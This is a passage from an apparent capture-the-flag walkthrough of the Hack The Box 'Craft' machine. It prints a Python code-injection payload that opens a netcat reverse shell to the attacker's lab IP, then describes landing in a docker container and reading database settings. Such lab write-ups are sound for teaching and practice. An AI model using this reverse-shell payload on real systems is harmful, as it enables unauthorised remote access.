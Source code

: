 Let\'s get that reverse shell!

```
# ./craft.sh "__import__('os').system('rm -rf /tmp/p; mkfifo /tmp/p p; /bin/sh 0</tmp/p | nc 10.10.15.33 1234 >/tmp/p')"
```

Once the payload is sent, the reverse shell comes knocking on my `nc` listener...

<a class="image-popup">
![e074f09d.png](/assets/images/posts/craft-htb-walkthrough/e074f09d.png)
</a>

The excitement died shortly...because it's a docker container :angry:

<a class="image-popup">
![fc9cdc32.png](/assets/images/posts/craft-htb-walkthrough/fc9cdc32.png)
</a>

While I was browsing the repo, I notice that `settings.py` was in `.gitignore`. In fact, all the database connection details can be found in this file. If only I can take a peek at this file. Wait a tick, I can do that!

<a class="image-popup">
![80a0a960.png](/assets/images/posts/craft-htb-walkthrough/80a0a960.png)
</a>

Notice the database host is `db`? This host has an IP address of `172.20.0.4`.

<a class="image-popup">
![eced1df4.png](/assets/images/posts/craft-htb-walkthrough/eced1df4.png)
</a>
